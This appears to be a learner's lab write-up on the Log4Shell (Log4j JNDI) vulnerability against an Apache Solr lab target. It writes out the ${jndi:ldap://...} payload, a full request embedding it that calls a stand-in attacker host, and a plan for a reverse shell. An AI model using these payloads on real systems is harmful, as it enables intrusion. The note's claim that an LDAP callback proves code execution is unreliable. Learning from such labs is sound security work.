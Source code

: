 ```yaml
---
title: Proof Of Concept
updated: 2022-06-07 14:10:14Z
created: 2022-06-07 13:44:30Z
---
```


so what is the problem here ?

the problem here is that  log4j package adds some extra logic to their logs by parsing entries.

-\> to enrich the data

but the problem begins when it take actions and even evaluate code based of this data entry

Some examples of this syntax are:

- [ ] \- `${sys:os.name}`
- [ ] \- `${sys:user.name}`
- [ ] \- `${log4j:configParentLocation}`
- [ ] \- `${ENV:PATH}`
- [ ] \- `${ENV:HOSTNAME}`
- [ ] \- `${java:version}`

general payload for exploiting log4j is done using jndi(java naming and directory interface)

**${jndi:ldap://ATTACKERCONTROLLEDHOST}**

this jndi and ldap is used to ultimately access external resources or references , which is what we will weaponize in this attack

so lets create a proof of concept lets start a listener on netcat and make the attack machine to connect to us :

![2a4326980b1f5d4ee26c0943b7e5f89c.png](../_resources/2a4326980b1f5d4ee26c0943b7e5f89c.png)

our payload will look something like this :

'[http://10.10.135.28:8983/solr/admin/cores?foo=$\\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:9999\\}](http://10.10.135.28:8983/solr/admin/cores?foo=$%5C%7Bjndi:ldap://YOUR.ATTACKER.IP.ADDRESS:9999%5C%7D)'

let me make this a bit easy to understand so first we are visiting our apache solr web-server address and port ,

-\> then in solr/admin/cores directory ,

->then we passed a ? to make  a parameter for us , we named our parameter "foo"

->then used "=" sign to define our parameter ,

->we used jndi to connect to a LDAP service , which is our listener on netcat on port 9999 and

->for some housekeeping stuff we made our payload inside single quotes so that bash do not interpret "$" sign as a variable

-\> we also used backslashes "\\" to escape curly braces character "{}" , so that they are not misinterpreted by curl as curl command arguments. 

lets forward this payload using curl : 

![1dec3c855c3bbddfef250a93471e0dad.png](../_resources/1dec3c855c3bbddfef250a93471e0dad.png)

and we will get some weird characters and a connection back from the target machine : 

![f0dc179eaf8470ec03f2c90bfee23d4b.png](../_resources/f0dc179eaf8470ec03f2c90bfee23d4b.png)

this proofs that yes we achieved remote code execution on our target machine .

now as this was ldap protocol we did not get a shell but in further steps we will work on that to get a shell and gain a reverse shell from target machine .